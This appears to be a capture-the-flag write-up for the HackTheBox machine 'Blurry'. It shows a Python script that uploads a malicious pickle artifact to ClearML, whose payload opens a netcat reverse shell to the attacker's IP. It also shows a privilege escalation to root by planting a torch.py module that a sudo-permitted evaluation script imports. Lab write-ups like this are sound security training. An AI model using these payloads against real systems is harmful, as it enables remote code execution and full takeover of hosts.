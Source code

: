 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [Blurry](https://app.hackthebox.com/machines/blurry)

> [!tip]- Summary with Spoilers
> - This machine was running a vulnerable version of the ClearML experimentation framework, which I exploited to gain RCE as the `jippity` user.
> - I discovered a `sudo` misconfiguration that allowed me to run a custom Python script as `root`.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Mon Jun 24 10:54:00 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp -sCV t
Increasing send delay for 10.10.11.19 from 0 to 5 due to 1993 out of 4982 dropped probes since last increase.
Warning: 10.10.11.19 giving up on port because retransmission cap hit (6).
Nmap scan report for t (10.10.11.19)
Host is up (0.095s latency).
Not shown: 65462 closed tcp ports (reset), 71 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 24 10:54:28 2024 -- 1 IP address (1 host up) scanned in 28.00 seconds
```

#### 80/tcp-http

![](_/htb-blurry-20240624-3.png)

Service scan with `whatweb`:

```console
$ whatweb -a3 http://app.blurry.htb
http://app.blurry.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.10.11.19], Script[module], Title[ClearML], nginx[1.18.0]
```

## RCE

[ClearML](https://github.com/allegroai/clearml): "Auto-Magical Suite of tools to streamline your AI workflow Experiment Manager, MLOps/LLMOps and Data-Management"

![](_/htb-blurry-20240624-1.png)

An arbitrary "Full Name" seems to work to login.

Here's the list of projects:

![](_/htb-blurry-20240624-2.png)

From there I created a new experiment under the "Black Swan" project:

![](_/htb-blurry-20240624-3.png)

And pasted that config into `clearml-init`:

```console
$ clearml-init
ClearML SDK setup process
Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration)
Or create a free account at https://app.clear.ml/settings/workspace-configuration
In settings page, press "Create new credentials", then press "Copy to clipboard".
Paste copied configuration here:
api {
  web_server: http://app.blurry.htb
  api_server: http://api.blurry.htb
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "77S5RITDEE37Y5W9GT1H"
    "secret_key" = "wt32s1Uuq6m668WJwyIF1PkG1kfQbQlV5hxn88DBvOyR4hz6Y7"
  }
}
Detected credentials key="77S5RITDEE37Y5W9GT1H" secret="wt32***"
ClearML Hosts configuration:
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb
Verifying credentials ...
Credentials verified!
New configuration stored in /home/kali/clearml.conf
ClearML setup completed successfully.
```

```python
$ cat x.py
import pickle
import os
from clearml import Task, Logger
task = Task.init(project_name='Black Swan', task_name='REV shell', tags=["review"])
class MaliciousCode:
    def __reduce__(self):
        cmd = (
            "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.10 443 > /tmp/f"
        )
        return (os.system, (cmd,))
malicious_object = MaliciousCode()
pickle_filename = 'rick.pkl'
with open(pickle_filename, 'wb') as f:
    pickle.dump(malicious_object, f)
print("Malicious pickle file with reverse shell created.")
task.upload_artifact(name='malicious_pickle', artifact_object=malicious_object, retries=2, wait_on_upload=True, extension_name=".pkl")
print("Malicious pickle file uploaded as artifact.")
```

```text
$ python3 ./x.py
ClearML Task: created new task id=a21561f590d54ca7b3b8e49efd8a89af
2024-06-24 12:02:00,128 - clearml.Task - INFO - No repository found, storing script code instead
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/a21561f590d54ca7b3b8e49efd8a89af/output/log
Malicious pickle file with reverse shell created.
Malicious pickle file uploaded as artifact.
```

```console
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.19] 41650
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(jippity) gid=1000(jippity) groups=1000(jippity)
```

## PE

```console
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

```python
jippity@blurry:~$ cat /usr/bin/evaluate_model
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.
if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi
MODEL_FILE="$1"
TEMP_DIR="/models/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"
/usr/bin/mkdir -p "$TEMP_DIR"
file_type=$(/usr/bin/file --brief "$MODEL_FILE")
# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi
/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")
    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done
/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"
if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
fi
```

```console
jippity@blurry:/models$ echo 'import os;os.system("bash")' > torch.py
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth 
[+] Model /models/demo_model.pth is considered safe. Processing...
root@blurry:/models# id
uid=0(root) gid=0(root) groups=0(root)
```
